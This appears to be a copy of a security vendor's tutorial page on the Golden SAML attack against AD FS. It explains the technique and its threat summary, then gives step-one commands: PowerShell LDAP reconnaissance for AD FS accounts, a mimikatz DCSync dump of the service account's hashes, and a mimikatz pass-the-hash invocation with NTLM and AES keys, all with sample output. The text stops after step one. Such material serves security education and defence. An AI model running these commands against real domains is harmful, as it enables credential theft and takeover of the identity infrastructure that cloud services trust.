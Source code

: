 Golden SAML Attack

##
#
https://www.netwrix.com/golden_saml_attack.html
#
https://github.com/cyberark/shimit
#
##

Active Directory
Credential Access
ADFS
Golden SAML is similar in concept to the Golden Ticket technique. The difference is that instead of compromising the Active Directory secret that signs Kerberos tickets, the adversary compromises the secret used to sign the SAML assertions created by Active Directory Federation Services (AD FS), which is frequently used to extend the Active Directory identity to cloud applications.

For a Golden SAML attack, an adversary must first compromise the AD FS service account on the AD FS server. Once authenticated as the AD FS service account, they can use tools such as ADFSDump to extract the required information: 
 • The token signing certificate and its private key
 • The Distributed Key Manager (DKM) key from Active Directory
 • The list of services for which the AD FS server is configured to be an identity provider

THREAT SUMMARY
Target:
AD FS and associated services
Tools:
AAD Internals, ADFSDump, shimit, ADFSpoof, mimikatz
ATT&CK® Tactic:
Credential Access
ATT&CK Technique:
Forge Web Credentials: SAML Tokens
DIFFICULTY
Detection:
Hard
Mitigation:
Medium
Response:
Hard
Attack Tutorial: How the Golden SAML Attack Works

STEP 1
Compromise the AD FS service
An adversary can use any of a number of different methods to compromise the AD FS service. In general, any means of obtaining administrative access to the AD FS server is sufficient. The example below uses a few techniques: LDAP reconnaissance to discover AD FS, DCSync to export the service account’s hashes, and then Pass the Hash (PtH) to gain a session on the AD FS Server as the service account.
Code
# LDAP reconnaissance for AD FS / AADC Items
## ADFS Uses a Host SPN on the service account for the ADFS Service Portal. If the portal is known (ADFS/STS/FS etc.) it can be discovered
Get-ADObject -filter { ServicePrincipalName -contains “*adfs*” -or ServicePrincipalName -contains “*STS*” -or ServicePrincipalName -contains “*FS*” }

## ADFS User/Service/computer Accounts
Get-ADObject -filter { samaccountname -like “*adfs*” -or description -like “*adfs*” -or description -like “*aadc*” }


# Found GMSA Account named adfssvc$
.\mimikatz.exe “lsadump::dcsync /user:adfssvc$”

# Execute PtH 
.\mimikatz.exe “privilege::debug” “sekurlsa::pth /user:aadcsvc$ /domain:domain.local /ntlm:f0f13a15b218cb98d1ada6484e380fe6 /aes256:f66c03bf486b3b5c7c40d526af00d3b89bf2f120a24059a739005a1c17d1d909 /aes128:569afe31a386f460e69e7915895837f8”
Output
# Command 1 #
DistinguishedName                               Name             ObjectClass ObjectGUID
-----------------                                ----              ----------- ----------
CN=ADFS,OU=Servers,DC=domain,DC=local           ADFS             computer   fbf560c9-da5e-42b9-8f80-9c9a37006c9b
CN=MSOL_81f4a7929078,CN=Users,DC=domain,DC=local MSOL_81f4a7929078 user       38348edf-8a4a-400e-83b4-eb88a57b78a7

# Command 2 #
DistinguishedName                                         Name   ObjectClass                     ObjectGUID
-----------------                                         ----    -----------                     ----------
CN=ADFS,OU=Servers,DC=domain,DC=local                     ADFS   computer                       fbf560c9-da5e-42b9…
CN=aadcsvc,CN=Managed Service Accounts,DC=domain,DC=local aadcsvc msDS-GroupManagedServiceAccount f1709f9d-e137-4185.

# Command 3 # 
mimikatz(commandline) # lsadump::dcsync /user:domain\da
[DC] 'domain.local' will be the domain
[DC] 'DC.domain.local' will be the DC server
[DC] 'aadcsvc$ ' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
Object RDN           : DA
--- Output truncated ---
Credentials:
  Hash NTLM: f0f13a15b218cb98d1ada6484e380fe6
--- Output truncated ---
* Primary:Kerberos-Newer-Keys *
    Default Salt : DOMAIN.LOCALDA
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : f66c03bf486b3b5c7c40d526af00d3b89bf2f120a24059a739005a1c17d1d909
      aes128_hmac       (4096) : 569afe31a386f460e69e7915895837f8

# Command 4 #
# New Window Opens for PTH #
